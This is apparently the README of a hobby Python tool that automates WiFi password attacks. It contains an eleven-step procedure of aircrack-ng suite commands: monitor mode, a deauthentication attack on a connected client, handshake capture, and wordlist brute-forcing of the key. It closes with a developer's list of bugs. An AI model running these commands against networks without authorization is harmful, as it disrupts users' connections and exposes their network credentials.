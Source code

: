 ## How it works
- The entry point is master.py, which displays all the possible options.
- First option is to display all the available interfaces. In order to do this, master.py calls **listInterfaces** function which in turn calls DetectInterface.py with its execIW() function. The execIW() function runs ``ip link show`` to list all the available interfaces and stores the output in an ephemeral file **interfaces.txt**. **listInterfaces()** then does some string manipulation to carve out the interface names and deletes the **interfaces.txt** file. It also returns the interfaces list to master.py which is then displayed.



## Procedure[David Bombal video]
1. Select a Wireless Adapter that supports monitor mode and packet injection
2. Choose a WiFi network or AP to attack [DONE]
3. Run `sudo airmon-ng check kill` to kill any conflicting processes [Ignoring for now]
4. Run `sudo airmon-ng start {interface}` to activate Monitor Mode
5. Run `sudo airodump-ng {interface}mon` to get the AP's MAC address and channel and MAC of one client connected to it
6. In one window, `sudo airodump-ng -w {output file} -c {channel} --bssid {MAC of AP} {interface}mon`.This will keep outputting packets as a pcap file.
7. In second window, `sudo aireplay-ng --deauth 1 -a {MAC of AP} -c {MAC of client} {interface}mon`. This performs the deauth.
8. After 10 seconds, stop the outputting of packets in the first window.
9. Put interface back into managed mode
10. Check presence of eapol packets in the capture
11. Run `aircrack-ng hack-01.cap -w {wordlist}` to brute force the key data present in hack-01.cap output file.
------------------------------------------------------------------------------------------------------------------------------------------------------------

## Errors to fix
1. If interface is already in monitor mode, do not return "Interface does not support monitor mode". Instead deactivate it, then resume normal operation [FIXED]
2. Check for packet injection on the wireless interface as well [FIXED]
3. Weird issues persisting in scanning. Try to kill conflicting processes [FIXED]
4. Unpredictable naming conventions of the Interfaces is problematic 
5. Packet Injection test does not work if interface is in Monitor Mode already.
6. The Clients take variable time to reconnect to target AP. Gotta account for it.
7. The procedure to return MACs and channel is erronous. The way the file handling is done needs to be changed.
8. Gotta put every procedure thats giving errors in a loop, caue a lot of them work the second time.
